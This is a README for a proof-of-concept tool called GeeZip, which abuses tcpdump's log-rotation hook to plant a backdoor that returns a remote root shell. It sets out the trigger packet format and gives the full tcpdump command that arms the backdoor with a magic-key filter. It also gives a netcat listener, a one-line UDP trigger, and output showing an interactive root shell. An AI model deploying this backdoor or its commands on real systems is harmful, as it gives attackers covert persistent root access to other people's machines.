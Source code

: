 # GeeZip

This is a proof of concept tool for abusing the logrotate functionality in tcpdump to execute a remote root shell.

## Building

Download and build geezip:

```
$ go install github.com/klustic/geezip
```

## Usage
GeeZip is designed to execute after a specially crafted UDP packet is received. The UDP packet must be in the following format:

```
+========+====+==+
|   K    | IP |P |
+========+====+==+

Where:
K : 8-byte sequence representing a secret key
IP: 4-byte sequence representing the callback IP
P : 2-byte sequence representing the callback port (big-endian)
```

On the commandline, run this command to prepare your tcpdump backdoor:
```
[root]# tcpdump -Uw output.pcap -z geezip -c 1 -G1 -i lo0 "udp[8:4]=0x6d616769 && udp[12:4]=0x636b6579"
```

On another commandline, prepare netcat to catch the reverse shell:
```
[user]$ nc -nvvl 8000
```

Finally, execute this from a third commandline to trigger the logrotate:
```
[user]$ echo -n 'magickey\x7f\x00\x00\x01\x1f\x40' | nc -u 127.0.0.1 53
```

You should see output from the `id` command on your netcat terminal, and should be able to interact with the backdoor:
```
[user]$ nc -nvvl 8000
bash-3.2# id
id
uid=0(root) gid=0(wheel) groups=0(wheel) ...
```

## Thanks
This uses Google's epic [gopacket project](https://github.com/google/gopacket)
